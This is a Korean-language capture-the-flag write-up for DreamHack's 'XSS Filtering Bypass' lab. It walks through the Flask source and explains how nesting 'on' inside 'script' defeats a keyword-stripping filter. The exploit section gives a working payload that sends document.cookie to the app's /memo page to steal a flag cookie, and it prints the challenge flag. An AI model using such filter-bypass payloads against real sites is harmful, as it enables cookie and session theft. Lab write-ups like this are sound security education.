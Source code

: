 # [DreamHack] XSS Filtering Bypass

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exercise: XSS Filtering Bypass에서 실습하는 문제입니다.
>
> Release: [XSS Filtering Bypass.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8617420/XSS.Filtering.Bypass.zip)

## Analysis

### /vuln

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param
```

`param` 변수에 값을 전달받아서, `xss_filter()`를 호출한다.

```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text
```

`xss_filter()`는 인자로 들어온 `text`에서 `script`, `on`, `javascript` 문자열을 차례로 검색해서 제거한 후 그 결과를 반환한다.

그런데 만약 `scripont`라는 문자열이 있으면, `script`를 검색할 때는 걸리지 않고 그 다음에 `on`이 삭제되면 `script`가 되어서, `vuln()`에서는 `<script>` 태그를 사용한 XSS가 가능하다.

### /flag

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

`param`과 플래그를 인자로 전달하여 `check_xss()`를 호출한다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

`check_xss()`는 서버에서 `/vuln?param={param}`로 접속 요청을 보내고, 이때 두 번째 인자로 받은 쿠키를 세팅한다. 즉, 플래그를 쿠키에 담아서 접속 요청을 보내게 된다.

### /memo

```python
memo_text = ""

@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)
```

전달받은 `memo` 변수의 값을 `memo_text`에 추가하고, `memo_text`의 전체 내용을 화면에 출력한다.

## Exploit

서버의 입장에서 쿠키에 플래그가 저장되어 있으므로, `/memo?memo=`에 `document.cookie`의 값을 넣어서 접속 요청을 보내도록 만들면, `memo_text`에 플래그가 추가된다.

따라서, `/flag`에서 `param`에 `<scripont>document.locatioonn.href='/memo?memo='+document.cookie</scripont>`을 넣으면, 필터링을 거친 후에 `<script>document.location.href='/memo?memo='+document.cookie</script>`가 되어, 요청을 보내고 나서 `/memo`에 들어가보면 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/104156058/166637556-4ff54204-cceb-4e65-87f2-a50bc1ed96e9.png)

![image](https://user-images.githubusercontent.com/104156058/166637665-13fd0587-1271-444f-abc2-ac42c4156590.png)

```
flag: DH{81cd7cb24a49ad75b9ba37c2b0cda4ea}
```